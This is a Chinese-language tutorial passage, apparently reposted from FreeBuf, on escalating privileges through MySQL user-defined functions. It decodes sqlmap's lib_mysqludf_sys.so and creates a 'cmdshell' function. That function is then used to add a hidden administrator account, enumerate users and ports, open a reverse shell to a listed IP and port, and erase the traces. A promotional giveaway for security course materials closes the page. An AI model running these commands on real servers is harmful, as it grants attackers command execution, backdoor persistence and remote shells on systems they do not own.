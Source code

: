 ```
cd /usr/share/sqlmap/extra/cloak/ 【进入cloak目录】
python cloak.py -d -i /usr/share/sqlmap/udf/mysql/linux/64/lib_mysqludf_sys.so
【将lib_mysqludf_sys.so_进行解码】

```

  
之后在/usr/share/sqlmap/udf/mysql/linux/64  
  
目录下会生成一个名为“lib_mysqludf_sys.so”的解码后的so文件  
  
将dll文件复制到指定的目录下，然后执行SQL命令：  

```
sys_eval，执行任意命令，并将输出返回。
sys_exec，执行任意命令，并将退出码返回。
sys_get，获取一个环境变量。
sys_set，创建或修改一个环境变量。
一般用于创建新用户维持权限




create function cmdshell returns string soname 'moonudf.dll' 【创建cmdshell】
select cmdshell('net user $darkmoon 123456 /add & net localgroup administrators $darkmoon /add')   【添加超级管理员】
select cmdshell('net user')  【查看用户】
select cmdshell('netstat -an')  【查看端口】
select name from mysql.func   【查看创建函数】
delete from mysql.func where name='cmdshell'  【删除cmdshell】
create function backshell returns string soname 'moonudf.dll' 【创建反弹函数】
select backshell('192.168.157.130',12345)    【执行反弹】
delete from mysql.func where name='backshell'  【删除backshell】
```

  
转自：  
https://www.freebuf.com/articles/vuls/430677.html  
  
  
****  
**文末福利**  
##   
## 现在已经步入2025年了，不少小伙伴在考虑入行学习网络安全。  
##   
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAmTHoVHrG8PppyYU8FpGmLJDLOPiax3pqwnq9hFjDSMH4cpYptL3h071PkP0jkoR5ib2Ksfia8VFnicmQ/640?wx_fmt=png&from=appmsg "")  
  
为了帮助大家早日习得网络安全核心知识，快速入行网络安全圈，**给大家整理了一套【2025最新网安资料】**  
**网络安全工程师****必备技能资料包**  
（文末一键领取）**，内容有多详实丰富看下图！**  
  
**Web安全**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/UkV8WB2qYAkcvc41LgmeFn1B18QpgBZFBODrmsTGnPTOibdIT9B5eFLTHVIgWzYafxGAesmYnfzrz52xwV3Bjhw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  